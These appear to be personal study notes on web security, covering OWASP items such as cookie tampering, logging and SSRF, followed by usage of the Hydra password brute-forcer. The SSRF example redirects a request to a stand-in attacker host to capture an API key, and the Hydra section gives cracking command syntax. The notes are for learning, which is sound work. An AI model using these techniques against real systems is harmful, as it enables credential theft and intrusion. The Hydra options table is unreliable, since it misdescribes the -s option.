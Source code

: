 An example of data integrity can be seen in the use of cookies. Cookies can be tampered with (i.e. changing username), which can potentially lead to impersonation. A solution to this was the use of JSON Web Tokens (JWT), which allow key-value pairs (i.e. header-payload-signature) that the server matches with its own secret key.

### 9. Security Logging & Monitoring Failures
Logging is crucial as it allows tracing of activities. Attackers' actions can be traced, which can then be evaluated for risk and impact. 

The information in logs should include:
+ HTTP status codes
+ Time stamps
+ Usernames
+ API endpoints/page locations
+ IP addresses

### 10. Server-seide Request Forgery (SSRF)
SSRF vulnerabilities allow attackers to coerce a web application into sending requests on their behalf to arbitrary destinations while controling the contents of the requests itself. These arise from the use of third-party services.

Take for example: https://www.mysite.com/sms?server=attacker.thm&msg=ABC

Changing the server parameter to your own server can allow you to obtain the API key (i.e. by listening using Netcat).

SSRF can be used further to:
+ Enumerate internal networks (i.e. IP addresses and ports)
+ Abuse trust relationships between servers and gain unrestricted access to services
+ Interact with non-HTTP services (i.e. to get RCE)

## Hydra
*Hydra* is a brute force password cracking program tool. This can be used to run through a password list and crack some authentication services (e.g. SSH, web app form, FTP, SNMP). 

### Commands
Hydra commands follow the following syntax:

**hydra -l [user] -P [passlist.txt] [MACHINE_IP] [SERVICE]**

Example SSH

**hydra -l [user] -P [wordlist] [IP_address] -t [x] ssh**

| Option | Description |
| :------: | :-----: |
| -l [USERNAME] | specifies the username for login |
| -P [FILE_PATH] | indicates a list of passwords |
| -t [NUM] | sets the number of threads to spawn |
| -s [PORT_NUM] | sets the number of threads to spawn |
